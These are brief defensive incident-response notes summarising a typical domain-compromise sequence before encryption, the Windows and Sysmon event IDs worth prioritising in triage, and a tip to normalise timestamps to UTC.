- Domain impact tends to follow a predictable sequence: credential discovery, remote services, account manipulation, then backup and recovery sabotage before encryption.
- For triage, prioritize artifacts that answer “who did what, from where, and did it succeed”: account creation `4720`, group membership `4728`, successful logons `4624`, process creation `4688` or `Sysmon` `1`.
- Tooling lesson: time handling matters. Normalizing everything to `UTC` and using one authoritative time source per question avoids chasing mismatched timestamps.